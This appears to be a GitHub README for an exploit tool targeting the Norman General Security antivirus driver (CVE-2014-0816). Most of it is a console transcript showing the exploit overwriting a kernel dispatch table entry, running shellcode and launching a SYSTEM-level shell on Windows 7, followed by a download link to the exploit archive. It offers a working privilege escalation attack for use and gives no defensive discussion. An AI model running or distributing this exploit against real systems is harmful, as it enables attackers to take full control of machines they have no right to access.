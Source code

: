 Usage
-----

    C:\Users\user\Desktop> exploit_ngs.exe
    [*] Exploit Norman General Security Driver (ngs.sys / ngs64.sys)
    [*] Target file version: ver 5.0.740.0.
    [*] An address file was created at C:\Users\user\Desktop\address.bin.
    [*] Shellcode is located at 000000013F9357D0.
    [*] The device was opened as 0000000000000044.
    [*] The address file was opened as FFFFFFFF80000558.
    [+] HalDispatchTable[1] is located at FFFFF800033FDC68.
    [+] HalDispatchTable[1] was altered.
    [+] Shellcode was executed.
    [+] The SYSTEM shell was launched.
    [*] Press any key to finish this program.

    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Users\user\Desktop>whoami
    nt authority\system

EXP
---

<https://github.com/JustYoomoon/Exploit/blob/main/CVE-2014-0816.zip>

![](Demo_win7_x64.png "Demo_win7_x64.png")